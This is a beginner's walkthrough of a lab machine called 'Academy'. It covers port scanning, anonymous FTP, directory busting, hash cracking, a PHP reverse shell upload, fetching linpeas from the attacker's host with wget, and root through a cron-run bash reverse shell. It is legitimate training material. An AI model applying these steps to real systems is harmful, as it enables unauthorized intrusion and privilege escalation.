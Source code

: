 This machine is one of the first machines i got root access to. It was really fun and this is going to be like a walkthrough o it.
Advice to beginners just like me, I won't advise you follow this walkthrough back to back as it will really not help you progress well in your journey. You can just come here to check when you get stuck and have tried all possible things you know before.

First we load our machine and get our IP address. For that we use the command <ip a> and we copy our IP address. That will be the target IP. 
![image](https://github.com/Bangis041/academy-/assets/74382096/9c438e88-5791-4089-83fe-921446e9cc60)


We start by doing the normal, scanning for ports to see which ports are opened and vulnerable. For this, I did <nmap -A -p- IP>
![image](https://github.com/Bangis041/academy-/assets/74382096/3d764b7f-820c-41d3-b1d1-34811b658b62)

From the scan above, we can see we had a number of opened ports. Port 21, 22 and 80. Port 21 looked interesting since it's the first and has a content we would like to view and also, anonymous FTP login allowed.
We go ahead to check out what ftp has for us. For that we use <ftp IP> and then we are able to list what files are there. FTP simply means file transfer protocol, it is used to download, upload, and transfer files from one location to another on the internet and between systems.
![image](https://github.com/Bangis041/academy-/assets/74382096/d07f7c83-9256-4046-a6b6-6cf56a21cb1e)


Here we downloaded the note.txt file using <get file-name> and then I viewed it on my attaker's machine. From the note.txt, we found out Grimmie was was a user and dev who uses same passwords everwhere hehe😂 and we also found an SQL database where we saw the student RegNo, passwords and all other things that can be used to login. It was also from 2020 and the message ws from jdelta.

After that we check outh the next port that might matter to us. SSH is not it so we move down to port 80.
Just paste the IP on your browser and check round for any useful information. After loading the website, there was no much information. we only knew what technology was behind it.
![image](https://github.com/Bangis041/academy-/assets/74382096/53b38ac7-4519-4202-90c5-ca4b81d25de3)
Here we proceed to using a directory buster. I will be using gobuster in this instance. SYNTAX: <gobuster dir -u http://IP -w wordlist_file/path>.
![image](https://github.com/Bangis041/academy-/assets/74382096/bdcf9185-6b31-4618-b9a2-1d6e827a3332)

Afer scanning we were able to get two directories. One interests me more and that is /academy. Why? Because I saw something that has to do with student in the note.txt file we saw from FTP. Now we search for http://IP/academy. After loading, we get to see a login page that requires us to use a REG NO and password. I did that and i got an error ![image](https://github.com/Bangis041/academy-/assets/74382096/3282bcab-4f23-4414-895c-ded129a73056)
 so i looked at the password again and realized it was not a password but a hash. Most students used weak passwords😂. I simply used https://crackstation.net to crack the password and it was "student" so i logged in and said to myself "I'm IN !!!" hehe.
![image](https://github.com/Bangis041/academy-/assets/74382096/64a793e0-cdc9-4e1b-8199-4617a0b93152)

Nothing was looking intersting here, just the 'My Profile' page. I uploaded a photo there and it went successful and then i tried to upload a file that was neither .jpg or .png format and it went. I smiled and said to myself, I am in that mode already with one kind of evil smile on my face. The plan here was to create a reverse shell and see if we can gain access. I simply go to google and search for php reverse shell. It bring out one pentestmonkey githb, i moved in there and saw a sweet code i can work with. i copied the entire code and used nano to create a .php file. I named it shell.php. SYNTAX: <nano <file_name>.php>. Read the code and change what needs to be changed, upload and listen. Once agai guys.... I'm in!!!. I tried running <sudo -l> to check if i gain root access, it gave an error. So then i realised i needed to use an automation tool i learnt about on https://tryhackme.com/r/room/linprivesc. Simply go to google and search 'linpeas'. I found the script, ![image](https://github.com/Bangis041/academy-/assets/74382096/2437bec1-dff5-49ae-9557-dd9d001422cb)
i copied and pasted in a .sh file i named linpeas. Now i have to transfer the file to the shell by hosting a webserver ad using wget. since I am transferrig from my machine to the target's mahine, i use <wget http://MY_IP/file> ![image](https://github.com/Bangis041/academy-/assets/74382096/040247fa-141e-4d1f-ab19-828aaee7d1f8). Now is time to change the permission to make it executable and then run!!!. 
![image](https://github.com/Bangis041/academy-/assets/74382096/269bb845-d796-4154-81b7-ddd10c3906ee)
We were given what to look out for also...made work easier. While scrolling through, I was able to get this...* * * * * /home/grimmie/backup.sh and also this 👇
![image](https://github.com/Bangis041/academy-/assets/74382096/a4edae2d-e509-426d-990c-a40d80c03c68) and also a password that kept repeating itself in multiple instances. I think now is time i use port 22 which is SSH since we have confirmed that Grimmie is a user and we have a possible password. SYNTAX for SSH: <ssh user@IP> and guess what again guys...I'm in🥱. 
![image](https://github.com/Bangis041/academy-/assets/74382096/481ae434-82a8-40db-bdd9-f84eac966f9d)
Now it's looking like it's a dead end after trying sudo -l. I checked the content of backupsh and realised it supposed to run at some point. Crontabs did not work so i used ps aux to list processes and we can see it is running as root user. Maybe we are correct.
![image](https://github.com/Bangis041/academy-/assets/74382096/94de302c-2c28-410a-b51c-a7f04ad8f0ee). 

From hree, we head over to google.com as it is out best friend to ask it asbout "bash reverse shell one liner" and we see a link on pentestmonkey. 
![image](https://github.com/Bangis041/academy-/assets/74382096/319e4683-a49a-43a1-82a7-01a53a3994f6)

We get a command to use to get a shell...Let's try it and see what comes.
![image](https://github.com/Bangis041/academy-/assets/74382096/17267a78-6af2-4561-85c6-37bd8fb39fd1).

For this to work, we have to set up a listener on our machine and specify the port we are listening on. For me it is 5678. ![image](https://github.com/Bangis041/academy-/assets/74382096/198043da-f221-4a9a-b9eb-19b27c9805e3).
We then wait for it to run, I waited for about 28seconds and I AM IN!!!!!

![image](https://github.com/Bangis041/academy-/assets/74382096/5203fc05-b3bb-44bf-8590-abcfcb7113e3)
Just find the flag and at it out. 
![image](https://github.com/Bangis041/academy-/assets/74382096/b87492b2-0a0e-47d5-b436-275268df8453)

